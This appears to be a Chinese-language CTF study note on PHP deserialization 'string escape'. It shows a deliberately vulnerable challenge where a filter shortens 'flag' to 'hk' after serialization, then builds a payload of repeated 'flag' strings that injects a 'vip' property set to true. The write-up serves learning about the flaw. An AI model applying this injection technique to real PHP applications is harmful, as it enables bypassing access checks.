

---
tags:
  - PHP
  - serialize
Date: 2026-01-30
---
例题代码
```php
<?php  
highlight_file(__FILE__);  
error_reporting(0);  
function filter($name){    $safe=array("flag","php");    $name=str_replace($safe,"hk",$name);  
    return $name;  
}  
class test{  
    var $user;  
    var $pass;  
    var $vip = false ;  
    function __construct($user,$pass){        $this->user=$user;    $this->pass=$pass;  
    }  
}  
$param=$_GET['user'];  
$pass=$_GET['pass'];  
$param=serialize(new test($param,$pass));  
$profile=unserialize(filter($param));  
  
if ($profile->vip){  
    echo file_get_contents("flag.php");  
}  
?>
```
### 分析
1.通过user和pass的get传递给变量赋值
2.给param赋值序列化后的实例对象
3.过滤实例对象，最后判断属性vip是否为真，原始为false

### 问题
1.php和flag被过滤，字符替换为更短的hk

### 考虑减少的字符串逃逸
先构造出关键属性vip
```php
<?php
class test{
    var $user =  'unknown';
    var $pass = 'what';
    var $vip = true;
}

$a = new test();
echo serialize($a);
?>
```
得到
```php
O:4:"test":3:{s:4:"user";s:7:"unknown";s:4:"pass";s:4:"what";s:3:"vip";b:1;}
```

用flag->hk每次减少两个字符
截断点：需要被吃掉的字符由第二个属性提供
```php
";s:4:"pass";s:4:"
```
一直到属性的内容`"what"`前，18个字符

构造
```php
    var $user = 'flagflagflagflagflagflagflagflagflag';
    var $pass = ';s:4:"pass";s:4:"what";s:3:"vip";b:1;}';
```
因为序列化后字符串会用双引号包裹会自带在字符串前后，所以不用多加

完整实例
```php
<?php

function filter($name){
    $safe=array("flag","php");
    $name=str_replace($safe,"hk",$name);
    return $name;
}

class test{
    var $user = 'flagflagflagflagflagflagflagflagflag';
    var $pass = ';s:4:"pass";s:4:"what";s:3:"vip";b:1;}';
    var $vip = false ;
}

  

$a = new test();
echo serialize($a)."\n";

$profile = unserialize(filter(serialize($a))); // 先序列化，再过滤，最后反序列化
echo serialize($profile);
?>
```
结果
```php
O:4:"test":3:{s:4:"user";s:36:"flagflagflagflagflagflagflagflagflag";s:4:"pass";s:38:";s:4:"pass";s:4:"what";s:3:"vip";b:1;}";s:3:"vip";b:0;}

O:4:"test":3:{s:4:"user";s:36:"hkhkhkhkhkhkhkhkhk";s:4:"pass";s:38:";s:4:"pass";s:4:"what";s:3:"vip";b:1;}
```

